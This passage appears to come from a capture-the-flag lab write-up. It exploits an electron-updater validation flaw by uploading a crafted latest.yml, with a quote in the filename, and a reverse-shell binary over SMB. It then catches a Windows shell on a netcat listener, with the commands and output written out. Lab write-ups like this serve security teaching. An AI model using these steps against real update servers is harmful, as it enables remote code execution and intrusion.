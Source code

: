 
The `latest.yml` file needs a base64 SHA512, which is easy to calculate using
the example in the post:

    
    
    oxdf@parrot$ sha512sum rev.exe | cut -d ' ' -f1 | xxd -r -p | base64 -w0
    94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==
    

All of that goes into the `latest.yml` file:

    
    
    version: 2.2.3
    files:
      - url: r'ev.exe
        sha512: 94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==
        size: 7168     
    path: r'ev.exe
    sha512: 94WZYO7lW9xUcWqtf7bcuLtrgFk50zeHWuXLF143BKErDzqK0saJz550GS4py14J8wDP6cvMeZI5zruNYf8gOg==
    releaseDate: '2021-04-17T11:17:02.627Z'
    

The `url` is the binary name with a `'` in it to break validation. I set the
`size` to the correct size, but it doesn’t matter. Same thing with
`releaseDate`, which can be any valid date string, or just omitted. One thing
that cost me a ton of time - the example in the post has invalid spacing!
`sha512` and `size` should be lined up with `url`, not with `-`.

I’ll upload the `latest.yml` and the binary to one of the client folders,
making sure to update the name of `rev.exe` to `r'ev.exe` to match what’s in
the `latest.yml`:

    
    
    smb: \client1\> put latest.yml
    putting file latest.yml as \client1\latest.yml (0.7 kb/s) (average 8.1 kb/s)
    smb: \client1\> put rev.exe r'ev.exe
    putting file rev.exe as \client1\r'ev.exe (17.2 kb/s) (average 8.8 kb/s)
    

Within a minute, there’s a shell at the listening `nc`:

    
    
    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 50128
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\WINDOWS\system32>whoami
    atom\jason
    

There’s no shell upgrade in Windows, but I do use `rlwrap` to get access to
the arrow keys. If you prefer PowerShell to Cmd, you can run `powershell` to
get that prompt.

`user.txt` is also now available:

